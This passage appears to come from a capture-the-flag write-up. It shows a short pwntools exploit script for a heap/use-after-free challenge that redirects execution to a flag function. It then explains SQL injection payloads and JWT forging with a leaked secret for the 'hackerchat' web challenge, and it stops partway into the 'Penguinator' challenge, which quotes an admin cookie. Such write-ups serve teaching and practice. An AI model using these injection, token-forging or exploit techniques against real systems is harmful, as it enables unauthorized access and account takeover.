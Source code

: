 ```py

def main():
    global io

    ## good luck pwning :)
    store(0, b"AAAA")
    delete(0)
    rand()
    exe.address = int(show(0)[1]) - exe.symbols.generateRandNum
    edit(0, str(exe.symbols.printFlag).encode())
    rand()

    io.interactive()


if __name__ == "__main__":
    main()
```

## Web

### hackerchat

After registering and logging in, we notice that the endpoint `/dashboard` causes a POST request on the `/search` endpoint with our username as body (json encoded).

So we start playing with it and immediately notice that the character `'` causes the application to crash and return an internal server error.

First, we get all the users with the search term `' OR '1'='1`.
We start playing with the `order by` to get the number of fields returned by the select statement, and with `' OR 1=1 order by 2 -- |` we discover the admin account.
In the notes of the admin account a base64 secret is contained.

We notice that the login is saved via a JWT token in a cookie.
By decoding the jwt in [jwt.io](jwt.io) we verify that it is signed with the admin secret!

So we change the `sub` field value in the jwt, which contains our username, to `admin` and sign it again with the secret found.
Once logged as admin, we find the flag in one of the messages displayed in the dashboard.

### Penguinator

The description of the challenge contains the admin cookie: `/SsLocjiwUwqJW7uuAaD2ufL2ok0RaOZTXokZ77E1rjtIqkQpTKGuvkE0s+8vC3qlpRciGEo4PnE0BuYMOGYtA==`.

First we try to log in with a new fresh account, and we immediately see that the authentication is made with a cookie named `auth`.

We then proceed by setting the admin cookie, but the page returns the error `checkAuth: expired auth bundle`. This tells us that the cookie contains information related to its expiration.

If we try to login with the username set to `admin` we receive the following error: `Hey, admins aren't allowed to log in during a CTF!`.
